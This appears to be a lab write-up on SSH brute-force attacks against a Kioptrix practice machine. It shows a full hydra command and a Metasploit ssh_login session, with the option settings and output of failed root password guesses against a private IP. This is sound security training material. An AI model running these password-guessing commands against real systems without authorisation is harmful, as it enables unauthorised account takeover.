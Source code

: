 # Brute Force Attacks

## What are Brute force attacks?

A brute force attack is a straightforward and systematic method of trying multiple combinations of usernames and passwords to gain unauthorized access to a system or account. In this type of attack, an attacker systematically guesses all possible combinations until the correct one is found. The goal is to discover the correct credentials by attempting all possible combinations or using a predefined list of commonly used passwords. 

Kali comes bundled with a couple of tools for this. In this particular case, we will be using `hydra`. 

The syntax for brute forcing using hydra is:

- **hydra -l(username) -L(username wordlist) -p(password) -P(password wordlist) `<protocol>://<ip>:<port>` -t(for threads) -V(for verbosity)**

The final syntax should look something like this:

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Kioptrix/OpenFuck]
└─$ hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://10.0.2.15:22 -t 4 -V
```

We can also do the same thing using metasploit:

```bash
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts

View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/ssh/ssh_login) > set username root
username => root
msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
pass_file => /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts 10.0.2.15
rhosts => 10.0.2.15
msf6 auxiliary(scanner/ssh/ssh_login) > set threads 5
threads => 5
msf6 auxiliary(scanner/ssh/ssh_login) > set verbose true
verbose => true
msf6 auxiliary(scanner/ssh/ssh_login) > run

[*] 10.0.2.15:22 - Starting bruteforce
[-] 10.0.2.15:22 - Failed: 'root:admin'
[!] No active DB -- Credential data will not be saved!
[-] 10.0.2.15:22 - Failed: 'root:123456'
[-] 10.0.2.15:22 - Failed: 'root:12345'
[-] 10.0.2.15:22 - Failed: 'root:123456789'
[-] 10.0.2.15:22 - Failed: 'root:password'
[-] 10.0.2.15:22 - Failed: 'root:iloveyou'
[-] 10.0.2.15:22 - Failed: 'root:princess'
[-] 10.0.2.15:22 - Failed: 'root:1234567'
```

We can wait for the scanner to find the correct password or we can interrupt it with `CTRL C`.